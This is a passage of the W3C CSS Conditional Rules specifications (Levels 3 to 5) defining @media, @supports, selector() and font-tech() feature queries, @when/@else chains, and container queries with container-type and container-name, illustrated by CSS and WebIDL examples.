> The user agent will consult the namespace map to see whether a namespace url exists corresponding to the "n" prefix.

### 4.  Placement of conditional group rules {#css-conditional-3:use}

Conditional group rules are allowed wherever style rules are allowed (at the top-level of a style sheet, as well as within other conditional group rules). CSS processors **must** process such rules as [described above](#css-conditional-3:processing).

Any at-rules that are not allowed after a style rule (e.g., `@charset`, `@import`, or `@namespace` rules) are also not allowed after a conditional group rule, and are therefore invalid when so placed.

### 5.  Media-specific style sheets: the `@media` rule {#css-conditional-3:at-media}

The **@media** rule is a conditional group rule whose condition is a media query. Its syntax is:

```css
@media <media-query-list> {
  <rule-list>
}
```

It consists of the at-keyword `@media` followed by a (possibly empty) media query list (as defined in [MEDIAQUERIES-4]), followed by a block containing arbitrary rules. The condition of the rule is the result of the media query.

> **Example:** This `@media` rule:
>
> ```
> @media screen and (min-width: 35em),
>        print and (min-width: 40em) {
>   #section_navigation { float: left; width: 10em; }
> }
> ```
>
> has the condition `screen and (min-width: 35em), print and (min-width: 40em)`, which is true for screen displays whose viewport is at least 35 times the initial font size and for print displays whose viewport is at least 40 times the initial font size. When either of these is true, the condition of the rule is true, and the rule `#section_navigation { float: left; width: 10em; }` is applied.

### 6. Feature queries: the `@supports` rule {#css-conditional-3:at-supports}

The **@supports** rule is a conditional group rule whose condition tests whether the user agent supports CSS `property:value` pairs. Authors can use it to write style sheets that use new features when available but degrade gracefully when those features are not supported. These queries are called **CSS feature queries** or (colloquially) **supports queries**.

> **Note:** CSS has existing mechanisms for graceful degradation, such as ignoring unsupported properties or values, but these are not always sufficient when large groups of styles need to be tied to the support for certain features, as is the case for use of new layout system features.

The syntax of the condition in the `@supports` rule is similar to that defined for `<media-condition>` in [MEDIAQUERIES-4], but without the "unknown" value logic:

- negation is needed so that the new-feature styles and the fallback styles can be separated (within the forward-compatible grammar’s rules for the syntax of @-rules), and not required to override each other.
- conjunction (and) is needed so that multiple required features can be tested.
- disjunction (or) is needed when there are multiple alternative features for a set of styles, particularly when some of those alternatives are vendor-prefixed properties or values.

Therefore, the syntax of the `@supports` rule allows testing for property:value pairs, and arbitrary conjunctions (and), disjunctions (or), and negations (not) of them.

The syntax of the `@supports` rule is:

```css
@supports <supports-condition> {
  <rule-list>
}
```

with `<supports-condition>` defined as:

```css
<supports-condition> = not <supports-in-parens>
                     | <supports-in-parens> [ and <supports-in-parens> ]*
                     | <supports-in-parens> [ or <supports-in-parens> ]*
<supports-in-parens> = ( <supports-condition> ) | <supports-feature> | <general-enclosed>
<supports-feature> = <supports-decl>
<supports-decl> = ( <declaration> )
```

The above grammar is purposely very loose for forwards-compatibility reasons, since the `<general-enclosed>` production allows for substantial future extensibility. Any `@supports` rule that does not parse according to the grammar above (that is, a rule that does not match this loose grammar which includes the <general-enclosed> production) is invalid. Style sheets **must not** use such a rule and processors **must** ignore such a rule (including all of its contents).

Each of these grammar terms is associated with a boolean result, as follows:

**`<supports-condition>` `<supports-in-parens>`**

: The result is the result of the child subexpression.

**not `<supports-in-parens>`**

: The result is the negation of the `<supports-in-parens>` term.

**`<supports-in-parens>` [ and <supports-in-parens> ]***

: The result is true if all of the `<supports-in-parens>` child terms are true, and false otherwise.

**`<supports-in-parens>` [ or <supports-in-parens> ]***

: The result is false if all of the `<supports-in-parens>` child terms are false, and true otherwise.

**`<supports-decl>`**

: The result is true if the UA supports the declaration within the parentheses.

**`<general-enclosed>`**

: The result is false.

  Authors must not use `<general-enclosed>` in their stylesheets. It exists only for future-compatibility, so that new syntax additions do not invalidate too much of a `<supports-condition>` in older user agents.

The condition of the `@supports` rule is the result of the `<supports-condition>` in its prelude.

> **Example:** For example, the following rule
>
> ```
> @supports ( display: flex ) {
>   body, #navigation, #content { display: flex; }
>   #navigation { background: blue; color: white; }
>   #article { background: white; color: black; }
> }
> ```
>
> applies the rules inside the `@supports` rule only when `display: flex` is supported.

> **Example:** The following example shows an additional `@supports` rule that can be used to provide an alternative for when `display: flex` is not supported:
>
> ```
> @supports not ( display: flex ) {
>   body { width: 100%; height: 100%; background: white; color: black; }
>   #navigation { width: 25%; }
>   #article { width: 75%; }
> }
> ```
>
> Note that the `width` declarations may be harmful to the flex-based layout, so it is important that they be present only in the non-flex styles.

> **Example:** The following example checks for support for the `box-shadow` property, including checking for support for vendor-prefixed versions of it. When the support is present, it specifies both `box-shadow` (with the prefixed versions) and `border` in a way what would cause the box to become invisible were `box-shadow` not supported.
>
> ```
> .noticebox {
>   border: 1px solid black;
>   padding: 1px;
> }
> @supports ( box-shadow: 0 0 2px black inset ) or
>           ( -moz-box-shadow: 0 0 2px black inset ) or
>           ( -webkit-box-shadow: 0 0 2px black inset ) or
>           ( -o-box-shadow: 0 0 2px black inset ) {
>   .noticebox {
>     -moz-box-shadow: 0 0 2px black inset;
>     -webkit-box-shadow: 0 0 2px black inset;
>     -o-box-shadow: 0 0 2px black inset;
>     box-shadow: 0 0 2px black inset; /* unprefixed last */
>     /* override the rule above the @supports rule */
>     border: none;
>     padding: 2px;
>   }
> }
> ```

To avoid confusion between `and` and `or`, the syntax requires that both `and` and `or` be specified explicitly (rather than, say, using commas or spaces for one of them). Likewise, to avoid confusion caused by precedence rules, the syntax does not allow `and`, `or`, and `not` operators to be mixed without a layer of parentheses.

> **Example:** For example, the following rule is not valid:
>
> ```
> @supports (transition-property: color) or
>           (animation-name: foo) and
>           (transform: rotate(10deg)) {
>   /* ... */
> }
> ```
>
> Instead, authors must write one of the following:
>
> ```
> @supports ((transition-property: color) or
>            (animation-name: foo)) and
>           (transform: rotate(10deg)) {
>   /* ... */
> }
> ```
>
> ```
> @supports (transition-property: color) or
>           ((animation-name: foo) and
>            (transform: rotate(10deg))) {
>   /* ... */
> }
> ```

The declaration being tested must always occur within parentheses, when it is the only thing in the expression.

> **Example:** For example, the following rule is not valid:
>
> ```
> @supports display: flex {
>   /* ... */
> }
> ```
>
> Instead, authors must write:
>
> ```
> @supports (display: flex) {
>   /* ... */
> }
> ```

The syntax allows extra parentheses when they are not needed. This flexibility is sometimes useful for authors (for example, when commenting out parts of an expression) and may also be useful for authoring tools.

> **Example:** For example, authors may write:
>
> ```
> @supports ((display: flex)) {
>   /* ... */
> }
> ```

A trailing `!important` on a declaration being tested is allowed, though it won’t change the validity of the declaration.

> **Example:** For example, the following rule is valid:
>
> ```
> @supports (display: flex !important) {
>   /* ... */
> }
> ```

#### 6.1. Definition of support {#css-conditional-3:support-definition}

For forward-compatibility, [section 4.1.8 (Declarations and properties)](#css2:declaration) of [CSS21] defines rules for handling invalid properties and values. CSS processors that do not implement or partially implement a specification **must** treat any part of a value that they do not implement, or do not have a usable level of support for, as invalid according to this rule for handling invalid properties and values, and therefore **must** discard the declaration as a parse error.

A CSS processor is considered to **support** a declaration (consisting of a property and value) if it accepts that declaration (rather than discarding it as a parse error) within a style rule. If a processor does not implement, with a usable level of support, both the property and the value given, then it **must not** accept the declaration or claim support for it.

> **Note:** Note that properties or values whose support is effectively disabled by user preferences are still considered as supported by this definition. For example, if a user has enabled a high-contrast mode that causes colors to be overridden, the CSS processor is still considered to support the `color` property even though declarations of the `color` property may have no effect. On the other hand, a developer-facing preference whose purpose is to enable or disable support for an experimental CSS feature does affect this definition of support.

These rules (and the equivalence between them) allow authors to use fallback (either in the [CSS1] sense of declarations that are overridden by later declarations or with the new capabilities provided by the `@supports` rule in this specification) that works correctly for the features implemented. This applies especially to compound values; implementations must implement all parts of the value in order to consider the declaration supported, either inside a style rule or in the declaration condition of an `@supports` rule.

### 7. APIs {#css-conditional-3:apis}

#### 7.1.  Extensions to the `CSSRule` interface {#css-conditional-3:extensions-to-cssrule-interface}

The `CSSRule` interface is extended as follows:

```webidl
partial interface CSSRule {
    const unsigned short SUPPORTS_RULE = 12;

};
```

#### 7.2.  The `CSSConditionRule` interface {#css-conditional-3:the-cssconditionrule-interface}

The `CSSConditionRule` interface represents all the “conditional” at-rules, which consist of a condition and a statement block.

```webidl
[Exposed=Window]
interface CSSConditionRule : CSSGroupingRule {
    readonly attribute CSSOMString conditionText;
};
```

**`conditionText` of type `CSSOMString`**

: The `conditionText` attribute represents the condition of the rule. Since what this condition does varies between the derived interfaces of `CSSConditionRule`, those derived interfaces may specify different behavior for this attribute (see, for example, `CSSMediaRule` below). In the absence of such rule-specific behavior, the following rules apply:

  The `conditionText` attribute, on getting, must return the result of serializing the associated condition.

#### 7.3.  The `CSSMediaRule` interface {#css-conditional-3:the-cssmediarule-interface}

The `CSSMediaRule` interface represents a `@media` at-rule:

```webidl
[Exposed=Window]
interface CSSMediaRule : CSSConditionRule {
    [SameObject, PutForwards=mediaText] readonly attribute MediaList media;
    readonly attribute boolean matches;
};
```

**`media` of type `MediaList`, readonly**

: The `media` attribute must return a `MediaList` object for the list of media queries specified with the `@media` at-rule.

**`matches` of type `boolean`, readonly**

: The `matches` attribute returns true if the rule is in an stylesheet attached to a document whose `Window` matches this rule’s `media` media query, and returns false otherwise.

**`conditionText` of type `CSSOMString` (CSSMediaRule-specific definition for attribute on CSSConditionRule)**

: The `conditionText` attribute (defined on the `CSSConditionRule` parent rule), on getting, must return the value of `media.mediaText` on the rule.

#### 7.4.  The `CSSSupportsRule` interface {#css-conditional-3:the-csssupportsrule-interface}

The `CSSSupportsRule` interface represents a `@supports` rule.

```webidl
[Exposed=Window]
interface CSSSupportsRule : CSSConditionRule {
  readonly attribute boolean matches;
};
```

**`matches` of type `boolean`, readonly**

: The `matches` attribute returns the evaluation of the CSS feature query represented in `conditionText`.

**`conditionText` of type `CSSOMString` (CSSSupportsRule-specific definition for attribute on CSSConditionRule)**

: The `conditionText` attribute (defined on the `CSSConditionRule` parent rule), on getting, must return the condition that was specified, without any logical simplifications, so that the returned condition will evaluate to the same result as the specified condition in any conformant implementation of this specification (including implementations that implement future extensions allowed by the `<general-enclosed>` extensibility mechanism in this specification). In other words, token stream simplifications are allowed (such as reducing whitespace to a single space or omitting it in cases where it is known to be optional), but logical simplifications (such as removal of unneeded parentheses, or simplification based on evaluating results) are not allowed.

#### 7.5.  The `CSS` namespace, and the `supports()` function {#css-conditional-3:the-css-namespace}

The `CSS` namespace holds useful CSS-related functions that do not belong elsewhere.

```webidl
partial namespace CSS {
  boolean supports(CSSOMString property, CSSOMString value);
  boolean supports(CSSOMString conditionText);
};
```

**`supports(CSSOMString property, CSSOMString value)`, returns `boolean`**

: When the `supports(property, value)` method is invoked with two arguments *property* and *value*:

  1. If *property* is an ASCII case-insensitive match for any defined CSS property that the UA supports, or is a custom property name string, and *value* successfully parses according to that property’s grammar, return `true`.
  2. Otherwise, return `false`.

  > **Note:** No CSS escape or whitespace processing is performed on the property name, so `CSS.supports(" width", "5px")` will return `false`, as " width" isn’t the name of any property due to the leading space.

  > **Note:** `!important` flags are not part of property grammars, and will cause *value* to parse as invalid, just as they would in the value argument to `element.style.setProperty()`.

**`supports(CSSOMString conditionText)`, returns `boolean`**

: When the `supports(conditionText)` method is invoked with a single *conditionText* argument:

  1. If *conditionText*, parsed and evaluated as a `<supports-condition>`, would return true, return `true`.
  2. Otherwise, If *conditionText*, wrapped in parentheses and then parsed and evaluated as a `<supports-condition>`, would return true, return `true`.
  3. Otherwise, return `false`.

  All namespaces in the *conditionText* argument are considered invalid, just as they are in `document.querySelector("a|b")`.

---

## CSS Conditional Rules Module Level 4 {#css-conditional-4}

- **Shortname:** `css-conditional-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-conditional-4/](https://drafts.csswg.org/css-conditional-4/)
- **Published TR:** [https://www.w3.org/TR/css-conditional-4/](https://www.w3.org/TR/css-conditional-4/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-11-10
- **Diff Specification Over:** [CSS Conditional Rules Module Level 3 (`css-conditional-3`)](#css-conditional-3)

### 1. Introduction {#css-conditional-4:introduction}

> **Issue:** The features in level 3 are still defined in [css-conditional-3] and have not yet been copied here.

This level adds extensions to the `@supports` rule to allow testing for supported selectors.

### 2.  Extensions to the `@supports` rule {#css-conditional-4:at-supports-ext}

This level of the specification extends the `<supports-feature>` syntax as follows:

```css
<supports-feature> = <supports-selector-fn> | <supports-decl>
<supports-selector-fn> = selector( <complex-selector> )
```

**`<supports-selector-fn>`**

: The result is true if the UA supports the selector provided as an argument to the function.

> **Example:** This example tests whether the column combinator (||) is supported in selectors, and if so uses it to style particular cells in a table.
>
> ```css
> @supports selector(col || td) {
>   col.selected || td {
>     background: tan;
>   }
> }
> ```

Any namespace prefixes used in a conditional group rule must have been declared, otherwise they are invalid [css-conditional-3]. This includes namespace prefixes inside the selector function.

> **Example:** This example tries to check that attribute selectors with CSS qualified names are supported, but is invalid, because the namespace prefix has not been declared.
>
> ```css
> @supports selector(a[xlink|href]) {
>   /* do something, but fail */
> }
> ```

> **Example:** This example checks that attribute selectors with CSS qualified names are supported.
>
> ```css
> @namespace x url(http://www.w3.org/1999/xlink);
> @supports selector(a[x|href]) {
>   /* do something */
> }
> ```

#### 2.1.  Extensions to the definition of support {#css-conditional-4:support-definition-ext}

A CSS processor is considered to **support a CSS selector** if it accepts that all aspects of that selector, recursively, (rather than considering any of its syntax to be unknown or invalid) and that selector doesn’t contain unknown -webkit- pseudo-elements.

> **Note:** Some functional selectors are parsed forgivingly, i.e. if some arguments are unknown/invalid, the selector itself is not invalidated. These are nonetheless unsupported

---

## CSS Conditional Rules Module Level 5 {#css-conditional-5}

- **Shortname:** `css-conditional-5`
- **Editor's Draft:** [https://drafts.csswg.org/css-conditional-5/](https://drafts.csswg.org/css-conditional-5/)
- **Published TR:** [https://www.w3.org/TR/css-conditional-5/](https://www.w3.org/TR/css-conditional-5/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-11-10
- **Diff Specification Over:** [CSS Conditional Rules Module Level 4 (`css-conditional-4`)](#css-conditional-4)

### 1.  Introduction {#css-conditional-5:introduction}

> **Issue:** This is currently an early draft of the things that are *new* in level 5. The features in Level 3 and Level 4 are still defined in [css-conditional-3] and [css-conditional-4] and have not yet been copied here.

CSS Conditional Level 5 extends the `@supports` rule and supports query syntax to allow testing for custom support conditions as well as supported at-rules and font technologies.

It also adds an `@when` rule, which generalizes the concept of a conditional rule. Anything that can be expressed in an existing conditional rule can be expressed in `@when` by wrapping it in an appropriate function to declare what kind of condition it is. This allow authors to easily combine multiple types of queries, such as media queries and supports queries, in a single boolean expression. Without this, authors must rely on nesting separate conditional rules, which is harder to read and write, presupposes the conditions are to be conjoined with the “and” boolean relation (with no easy way to indicate anything else), and restricts their utility in the proposed conditional rule chains.

It also adds `@else` rules, which immediately follow other conditional rules and automatically qualify their conditions as the inverse of the immediately preceding rule’s conditions, such that only the first matching rule in a conditional rule chain is applied.

It also adds Container Queries. They are conceptually similar to Media Queries, but allow testing aspects of elements within the document (such as box dimensions or computed styles), rather than on the document as a whole.

### 2.  Extensions to the `@supports` rule {#css-conditional-5:at-supports-ext}

This level of the specification extends the `<supports-feature>` syntax as follows:

```css
<supports-feature> = <supports-selector-fn>
                   | <supports-font-tech-fn> | <supports-font-format-fn>
                   | <supports-at-rule-fn> | <supports-named-feature-fn>
                   | <supports-env-fn> | <supports-decl>
<supports-decl> = ( [ <declaration> | <supports-condition-name> ] )
<supports-font-tech-fn> = font-tech( <font-tech> )
<supports-font-format-fn> = font-format( <font-format> )
<supports-at-rule-fn> = at-rule( <at-keyword-token> )
<supports-named-feature-fn> = named-feature( <ident> )
<supports-env-fn> = env( <ident> )
```

**<declaration>** here matches anything that would be successfully parsed by consume a declaration, ignoring the context-validation check at the end of that algorithm. Notably, this includes a trailing `!important`, which is valid but ignored for the purpose of `@supports`.

**`<supports-condition-name>`**

: The result is true if the UA supports the named condition. If the name is not recognized, the result is false.

****font-tech( `<font-tech>` )****

: The result is true if the UA supports the font tech provided as an argument to the function.

****font-format( `<font-format>` )****

: The result is true if the UA supports the font format provided as an argument to the function.

****at-rule( `<at-keyword-token>` )****

: The result is true if the UA supports the at-rule provided as an argument to the function.

****named-feature( `<ident>` )****

: The result is true if the UA supports the named feature provided as an argument to the function.

****env( `<ident>` )****

: The result is true if the UA supports the environment variable provided as an argument to the function.

#### 2.1.  Extensions to the definition of support {#css-conditional-5:support-definition-ext}

##### 2.1.1.  Font techs and formats {#css-conditional-5:support-definition-ext-fonts}

A CSS processor is considered to **support a font tech** when it is capable of utilizing the specified [CSS Fonts 4 § 11.1 Font tech](#css-fonts-4:font-tech-definitions) in layout and rendering.

A CSS processor is considered to **support a font format** when it is capable of utilizing the specified [CSS Fonts 4 § 11.2 Font formats](#css-fonts-4:font-format-definitions) in layout and rendering, and this format is not specified as a `<string>`.

##### 2.1.2.  At-rules {#css-conditional-5:support-definition-at-rules}

A CSS processor is considered to **support an at-rule** if it would accept an at-rule beginning with the specified at-keyword within any context.

> **Note:** Because `@charset` is not a valid at-rule, it is not considered to be supported under this definition.

##### 2.1.3.  Named features {#css-conditional-5:support-definition-named-features}

A CSS processor is considered to **support a named feature** if it supports the named feature based on the feature definition described in the following list:

****anchor-position-follows-transforms****

: Anchoring to a transformed element automatically takes into account the anchor’s transforms, causing the positioned element to shift to match it. [CSS-ANCHOR-POSITION-2]

  (An earlier version of the specification did not take transforms into account.)

****single-axis-scroll-container****

: The ability to have single-axis scroll containers, where one axis is scrollable and the other is `clip`. [CSS-OVERFLOW-4]

  (Previously, specifying `clip` alongside a scrollable value caused it to compute to `hidden`, which is still a scrollable value even if it doesn’t generate a scrollbar.)

****gamut-mapping****

: Colors specified in CSS which are being rendered, and are out of gamut of the display device (or, if rendering to a canvas 2D context, the canvas color space) are automatically css gamut mapped to be within gamut. [CSS-COLOR-4]

  This inclues colors directly specified (for example, a background color) and indirectly specified (for example, the interpolated colors in a gradient).

  (Previously, handling these colors was undefined, and implementations would simply clip the resulting RGB values, which changes the hue and lightness in undesirable ways.)

If the feature is not listed the processor does not support the named feature.

> **Note:** The CSS Working Group intends to add features to this list rarely, when there is real demand for feature testing something specific and it would be unreasonable to add a more general feature testing mechanism that would cover the use case.

##### 2.1.4.  Named conditions {#css-conditional-5:support-definition-supports-condition-name}

A CSS processor is considered to **support a named condition** when the related named supports condition returns true.

##### 2.1.5.  Environment variables {#css-conditional-5:support-definition-env}

A CSS processor is considered to **support an environment variable** if the `<ident>` is a supported environment variable.

### 3.  Generalized Conditional Rules: the `@when` rule {#css-conditional-5:when-rule}

The **@when** at-rule is a conditional group rule that generalizes the individual conditional group rules such as `@media` and `@supports`. It is defined as:

```css
@when <boolean-condition> {
  <rule-list>
}
```

Where **`<boolean-condition>`** is a boolean algebra a la [Media Queries 4 § 3 Syntax](#mediaqueries-5:mq-syntax), but with `media()` and `supports()` functions as leaves.

> **Issue:** Define "boolean algebra, with X as leaves" in a generic way in Conditional, so all the conditional rules can reference it directly, rather than having to redefine boolean algebra on their own.

The `media()` and `supports()` functions are defined as:

```css
media() = media( [ <mf-plain> | <mf-boolean> | <mf-range> ] )
supports() = supports( <declaration> )
```

A `media()` or `supports()` function is associated with the boolean result that its contained condition is associated with.

### 4.  Chained Conditionals: the `@else` rule {#css-conditional-5:else-rule}

Usually, conditional group rules are independent; each one has a separate condition evaluated without direct reference to any other rule, and decides whether or not to apply its contained rules based solely on its condition.

This is fine for simple conditions, but makes it difficult to write a collection of conditionals that are meant to be mutually exclusive: authors have to very carefully craft their conditions to not activate when the other rules are meant to, and make sure the collection of conditionals don’t accidentally *all* exclude some situation which is then left unstyled.

The **@else** rule is a conditional group rule used to form conditional rule chains, which associate multiple conditional group rules and guarantee that only the first one that matches will evaluate its condition as true. It is defined as:

```css
@else <boolean-condition>? {
  <rule-list>
}
```

`@else` is interpreted identically to `@when`. If its `<boolean-condition>` is omitted, it’s treated as having a condition that’s always true.

A **conditional rule chain** is a series of consecutive conditional group rules, starting with a conditional group rule other than `@else`, followed by zero or more `@else` rules. There cannot be anything between the successive conditional group rules other than whitespace and/or comments; any other token “breaks” the chain.

> **Issue:** Should we require that only the last `@else` in a chain can have an omitted condition? It’s not uncommon for me, when debugging code, to short-circuit an if-else chain by setting one of them to "true"; I presume that would be similarly useful in CSS? It’s still pretty easy to see you’ve done something wrong if you omit the condition accidentally.

Within a conditional rule chain, the conditions of each conditional group rule are evaluated in order. If one of them is true, the conditions of all *following* conditional group rules in the chain evaluate to false, regardless of their stated condition.

An `@else` rule that is not part of a conditional rule chain is invalid and must be ignored.

> **Example:** For example, here’s a (somewhat silly) conditional chain:
>
> ```css
> @when media(width >= 400px) and media(pointer: fine) and supports(display: flex) {
>   /* A */
> } @else supports(caret-color: pink) and supports(background: double-rainbow()) {
>   /* B */
> } @else {
>   /* C */
> }
> ```
>
> Exactly one of the preceding rules will be chosen, even though the second rule doesn’t exclude large widths, fine points, or flexbox support, and the last rule doesn’t specify anything at all.
>
> To achieve the same result without conditional rule chains, you’d need to write:
>
> ```css
> @media (width >= 400px) and (pointer: fine) {
>   @supports (display: flex) {
>   /* A */
>   }
>   @supports not (display: flex) {
>   @supports (caret-color: pink) and (background: double-rainbow()) {
>     /* B */
>   }
>   @supports not ((caret-color: pink) and (background: double-rainbow())) {
>     /* C */
>   }
>   }
> }
> @media not ((width >= 400px) and (pointer: fine)) {
>   @supports (caret-color: pink) and (background: double-rainbow()) {
>   /* B */
>   }
>   @supports not ((caret-color: pink) and (background: double-rainbow())) {
>   /* C */
>   }
> }
> ```
>
> This is simultaneously hard to read, requires significant duplication of both conditions and contents, and is *very* difficult to write correctly. If the conditions got any more complicated (which is not unusual in real-world content), the example would get *significantly* worse.

> **Example:** In this example, three different color font technologies are tested, in order of preference, plus a monochrome fallback. The most capable, COLRv1, supports both gradients and font variations; the next best choice, SVG, supports gradients while the least capable, COLRv0, supports flat color fill only.
>
> The fallback has no test condition, so will always be chosen unless one of the earlier conditions succeeds.
>
> ```css
> @when font-tech(color-COLRv1) and font-tech(variations) {
>   @font-face { font-family: icons; src: url(icons-gradient-var.woff2); }
> }
> @else font-tech(color-SVG) {
>   @font-face { font-family: icons; src: url(icons-gradient.woff2); }
> }
> @else font-tech(color-COLRv0) {
>   @font-face { font-family: icons; src: url(icons-flat.woff2); }
> }
> @else {
>   @font-face { font-family: icons; src: url(icons-fallback.woff2); }
> }
> ```
>
> Notice that in this example, the variable color font is only downloaded if COLRv1 is supported and font variations are also supported.
>
> Notice too that only one of the available options will be downloaded; this would not be the case without `@when` and `@else`, as the next example shows.

> **Example:** In this example, although it appears that the fallback will not be used if COLRv1 is supported, in fact both fonts will be downloaded, which wastes bandwidth if it is not used.
>
> The fallback might still be used for some characters; for example, if the color font supports only Latin, while the fallback supports Latin and Greek.
>
> ```css
> @font-face { font-family: icons; src: url(icons-fallback.woff2);
> @supports font-tech(color-COLRv1) {
>   @font-face { font-family: icons; src: url(icons-gradient-var.woff2); }
> }
> ```

### 5.  Container Queries {#css-conditional-5:container-queries}

While media queries provide a method to query aspects of the user agent or device environment that a document is being displayed in (such as viewport dimensions or user preferences), container queries allow testing aspects of elements within the document (such as box dimensions or computed styles).

By default, all elements are **query containers** for the purpose of container style queries, and can be established as query containers for container size queries and container scroll-state queries by specifying the additional query types using the `container-type` property (or the `container` shorthand). Style rules applying to a query container’s flat tree descendants can be conditioned by querying against it, using the `@container` conditional group rule.

An ancestor element that generates a box is not an eligible container for container size queries if that box is not an ancestor box of any boxes generated by the querying element.

> **Note:** There are cases where the box for a pseudo-element is generated as a sibling box of its originating element’s box. If we allowed querying the size of a sibling box, it would introduce layout cycles.
>
> For example, the `::scroll-marker-group` and `::scroll-button()` pseudo-elements generate sibling boxes of their originating element’s box. These pseudo-elements will not be able to query their originating scroller for container size queries. They will, however, be able to query other eligible query container ancestors.

> **Example:** For example, we can define the main content area and sidebar as containers, and then describe a `.media-object` that changes from vertical to horizontal layout depending on the size of its container:
>
> ```css
> main, aside {
>   container: my-layout / inline-size;
> }
>
> .media-object {
>   display: grid;
>   grid-template: 'img' auto 'content' auto / 100%;
> }
>
> @container my-layout (inline-size > 45em) {
>   .media-object {
>   grid-template: 'img content' auto / auto 1fr;
>   }
> }
> ```
>
> Media objects in the main and sidebar areas will each respond to their own container context.

For the `::part()` and `::slotted()` pseudo-element selectors, which represent real elements in the DOM tree, query containers can be established by flat tree ancestors of those elements. For other pseudo-elements, query containers can be established by inclusive flat tree ancestors of their originating element.

> **Note:** It follows that:
>
> - `::before`, `::after`, `::marker`, and `::backdrop` query their originating elements
> - `::first-letter` and `::first-line` query their originating elements, even if the fictional tag sequence may push the `::first-line` past other elements for the purpose of inheritance and rendering
> - `::slotted()` selectors can query containers inside the shadow tree, including the slot itself
> - `::slotted()::before` selectors can query the slotted shadow host child
> - `::part()` selectors can query containers inside the shadow tree
> - `::placeholder` and `::file-selector-button` can query the input element, but do not expose any internal containers if the input element is implemented using a shadow tree

> **Example:** A ::before selector querying the size of the originating element:
>
> ```html
> <style>
>   #container {
>   width: 100px;
>   container-type: inline-size;
>   }
>   @container (inline-size < 150px) {
>   #inner::before {
>     content: "BEFORE";
>   }
>   }
> </style>
> <div id=container>
>   <span id=inner></span>
> </div>
> ```

> **Example:** A ::slotted() selector for styling a shadow host child can query a container in the shadow tree:
>
> ```html
> <div id=host style="width:200px">
>   <template shadowroot=open>
>   <style>
>     #container {
>     width: 100px;
>     container-type: inline-size;
>     }
>     @container (inline-size < 150px) {
>     ::slotted(span) {
>       color: green;
>     }
>     }
>   </style>
>   <div id=container>
>     <slot />
>   </div>
>   </template>
>   <span id=slotted>Green</span>
> </div>
> ```

#### 5.1.  Creating Query Containers: the `container-type` property {#css-conditional-5:container-type}

| Field | Value |
| --- | --- |
| Name: | **container-type** |
| [Value:](#css-values-4:value-defs) | normal \| [ [ size \| inline-size ] \|\| scroll-state ] |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The `container-type` property establishes the element as a query container for certain types of queries. For size container queries, which require certain types of containment, elements are explicitly made query containers through this property. For other types of query containers any element can be a query container, such as for container style queries.

Values have the following meanings:

****size****

: Establishes a query container for container size queries on both the inline and block axis. Applies style containment and size containment to the principal box, and establishes an independent formatting context.

****inline-size****

: Establishes a query container for container size queries on the container’s own inline axis. Applies style containment and inline-size containment to the principal box, and establishes an independent formatting context.

****scroll-state****

: Establishes a query container for container scroll-state queries. For queries that match the state of the scroller itself (such as `scrollable`), the element is only a query container on the element’s own scrollable axises.

  > **Note:** This means that a `scrollable` query, for example, could query against different containers for `scroll-state(scrollable: block)` and `scroll-state(scrollable: inline)` queries.

****normal****

: The element is not a query container for any container size queries or container scroll-state queries, but remains a query container for container style queries.

> **Example:** For example, authors can create container-responsive typography, adjusting `font-size`, `line-height`, and other typographic concerns based on the size of a container:
>
> ```css
> aside, main {
>   container-type: inline-size;
> }
>
> h2 { font-size: 1.2em; }
>
> @container (width > 40em) {
>   h2 { font-size: 1.5em; }
> }
> ```
>
> The `40em` value used in the query condition is relative to the computed value of `font-size` on the relevant query container.

> **Example:** Containers can also expose computed style values for querying. This can be useful for toggling behavior across multiple properties:
>
> ```css
> @container style(--cards: small) {
>   article {
>   border: thin solid silver;
>   border-radius: 0.5em;
>   padding: 1em;
>   }
> }
> ```

> **Example:** Containers can also expose state that depends on scroll offset. This example styles a descendant of a sticky positioned element when it is stuck to the top edge:
>
> ```css
> #sticky {
>   container-type: scroll-state;
>   position: sticky;
> }
> @container scroll-state(stuck: top) {
>   #sticky-child {
>   background-color: lime;
>   }
> }
> ```

#### 5.2.  Naming Query Containers: the `container-name` property {#css-conditional-5:container-name}

| Field | Value |
| --- | --- |
| Name: | **container-name** |
| [Value:](#css-values-4:value-defs) | none \| `<custom-ident>`+ |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the keyword `none`, or an ordered list of identifiers |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The `container-name` property specifies a list of **query container names**. These names can be used by `@container` rules to filter which query containers are targeted. Container names are not tree-scoped names.

****none****

: The query container has no query container name.

****`<custom-ident>`****

: Specifies a query container name as an identifier. The keywords `none`, `and`, `not`, and `or` are excluded from this `<custom-ident>`.

> **Example:** In some cases, we want to query aspects of a specific container, even if it’s not the nearest ancestor container. For example, we might want to query the height of a main content area, and the width of a more nested inline-container.
>
> ```css
> main {
>   container-type: size;
>   container-name: my-page-layout;
> }
>
> .my-component {
>   container-type: inline-size;
>   container-name: my-component-library;
> }
>
> @container my-page-layout (block-size > 12em) {
>   .card { margin-block: 2em; }
> }
>
> @container my-component-library (inline-size > 30em) {
>   .card { margin-inline: 2em; }
> }
> ```
>
> It is also possible to query for a container only based on its name.
>
> ```css
> @container my-page-layout {
>   .card { padding: 1em; }
> }
> ```

#### 5.3.  Creating Named Containers: the `container` shorthand {#css-conditional-5:container-shorthand}

| Field | Value |
| --- | --- |
| Name: | **container** |
| [Value:](#css-values-4:value-defs) | `<'container-name'>` [ / `<'container-type'>` ]? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
